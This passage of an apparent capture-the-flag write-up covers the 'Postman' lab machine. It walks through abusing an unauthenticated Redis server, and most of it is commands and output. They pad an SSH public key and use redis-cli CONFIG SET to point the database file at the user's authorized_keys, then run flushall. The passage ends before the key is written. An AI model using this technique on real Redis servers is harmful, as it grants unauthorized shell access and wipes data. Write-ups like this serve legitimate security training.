 ![alt text](Writeup/Postman/login.png)

# Redis

## Exploit

https://github.com/psmiraglia/ctf/blob/master/kevgir/000-redis.md

I create an `SSH key` with `ssh-keygen`.

```bash
$ echo -e '\n\n' >> spaced_keys.txt
$ cat postman_keys.pub >> spaced_keys.txt
$ echo -e '\n\n' >> spaced_keys.txt
```

```bash
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/home/user/.ssh"
10.10.10.160:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "dump.rdb"
```

```bash
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/home/user/.ssh"
10.10.10.160:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
10.10.10.160:6379> flushall
```
